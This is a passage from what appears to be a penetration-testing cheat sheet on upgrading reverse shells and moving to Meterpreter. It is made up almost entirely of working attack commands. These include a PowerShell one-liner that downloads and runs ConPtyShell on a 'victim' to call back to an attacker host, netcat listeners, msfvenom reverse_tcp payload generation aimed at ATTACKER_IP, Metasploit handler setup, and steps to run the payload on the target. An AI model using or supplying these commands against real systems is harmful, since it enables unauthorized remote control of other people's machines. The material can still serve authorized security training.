 ### Using ConPtyShell (Windows)

```powershell
# On attacker machine (Linux):
stty raw -echo; (stty size; cat) | nc -lvnp 4444

# On victim machine (Windows):
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.1 4444
```

### Other Upgrade Methods

#### Using script command (Linux)
```bash
script -q /dev/null /bin/bash
```

#### Using stty (Linux)
```bash
/bin/sh -i
# Background with CTRL+Z
stty raw -echo
fg
reset
```

#### Using rlwrap
```bash
# On attacker machine
rlwrap nc -lvnp 4444
```

## Upgrading to Meterpreter

### Using Metasploit shell_to_meterpreter

```bash
# In Metasploit, after getting a basic shell:
use post/multi/manage/shell_to_meterpreter
set SESSION 1  # Replace with your session ID
set LHOST ATTACKER_IP
set LPORT 4433
run
```

### Direct Meterpreter Payload Execution

```bash
# Generate a meterpreter payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf > meterpreter.elf
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > meterpreter.exe

# Set up handler in Metasploit
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp  # Or linux/x86/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
run

# Transfer and execute on target
# Linux:
chmod +x meterpreter.elf
./meterpreter.elf
```
